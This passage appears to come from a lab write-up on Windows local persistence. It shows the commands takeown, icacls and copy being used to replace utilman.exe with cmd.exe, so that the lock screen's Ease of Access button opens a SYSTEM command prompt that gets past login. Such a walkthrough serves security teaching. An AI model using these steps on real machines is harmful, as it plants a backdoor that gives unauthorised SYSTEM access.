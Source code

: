 When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with `SYSTEM` privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.

To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:

```Command Prompt
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.
```

To trigger our terminal, we will lock our screen from the start button.

And finally, proceed to click on the "Ease of Access" button. Since we replaced `utilman.exe` with a `cmd.exe` copy, we will get a command prompt with `SYSTEM` privileges:

![image](/img/WindowsLocalPersistence/17.png)

---
---
